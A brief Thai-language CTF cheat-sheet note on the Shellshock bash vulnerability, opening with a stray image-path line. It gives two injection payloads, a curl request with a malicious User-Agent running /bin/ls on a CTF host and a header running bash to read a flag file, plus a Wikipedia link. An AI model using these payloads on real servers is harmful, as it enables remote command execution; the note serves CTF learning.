 Shellshock
==========
ส่ง function เข้าไปแล้วตามด้วย cmd ที่ต้องการ

Example
-------
curl -H "User-Agent: () { :; }; /bin/ls" https://school.fluxfingers.net:1503/
X-Foo: () { :;}; /bin/bash -c "cat /var/www/flag"

Resource
--------
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
